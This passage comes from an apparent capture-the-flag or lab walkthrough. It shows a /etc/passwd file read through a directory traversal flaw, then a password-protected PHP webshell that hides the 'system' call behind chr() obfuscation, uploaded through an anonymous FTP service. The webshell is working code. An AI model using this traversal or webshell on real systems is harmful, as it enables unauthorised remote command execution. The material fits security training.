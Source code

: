 ```http
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi-autoipd:x:107:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
avahi:x:113:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:114:121::/var/lib/saned:/usr/sbin/nologin
colord:x:115:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:116:123::/var/lib/geoclue:/usr/sbin/nologin
tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:118:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```
> Directory traversal vulnerability confirmed!
{: .prompt-info }

Now let us test if it is also possible to load a `PHP` file and get it interpreted by trying a `webshell` upload.

## escalating to a web shell
### uploading a webshell via anonymous ftp access

We now upload the following webshell to the `ftp` service we identified in our discovery phase where `anonymous` access is allowed.

```php
<?php

$pass = "9cdfb439c7876e703e307864c9167a15"; //lol 

$A = chr(0x73);
$B = chr(0x79);
$X = chr(0x74);
$D = chr(0x65);
$E = chr(0x6d);

$hook = $A.$B.$A.$X.$D.$E;

if($pass == md5($_POST['password']))
{
  $hook($_POST['cmd']);
}
else
{
  die();
}

?>
```
> When uploading to a `vsftpd 3.0.3` server the default upload folder is `/var/ftp/pub/` (Linux)
{: .prompt-info }
